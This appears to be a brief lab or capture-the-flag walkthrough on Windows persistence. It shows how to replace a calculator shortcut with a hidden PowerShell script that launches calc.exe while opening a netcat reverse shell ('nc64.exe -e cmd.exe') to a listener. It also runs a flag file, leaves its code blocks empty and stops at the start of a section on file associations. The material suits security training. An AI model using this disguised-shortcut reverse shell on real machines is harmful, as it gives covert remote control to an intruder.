 # Shortcut Files
1. Started up this room's machine
2. Opened up the compromised Windows machine's calculator properties

![]()

![]()

3. `PowerShell`
```PowerShell
```
4. `$scriptPath = 'C:\Path\to\directory\<SCRIPT NAME>.ps1';
$scriptContent = @";
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe <MACHINE IP> <PORT NUMBER>";
C:\Windows\System32\calc.exe;
"@;
Set-Content -Path $scriptPath -Value $scriptContent`
```PowerShell
```
5. Change the calculator's icon and shortcut properties to 'powershell.exe -WindowStyle hidden C:\Windows\System32\<SCRIPT NAME>.ps1'

![]()

6. `nc -lvnp <PORT NUMBER>`
```Bash
```

7. `C:\flags\flag5.exe`
```Bash
```

# Hijacking File Associations
1. Started this room's machine
2. 
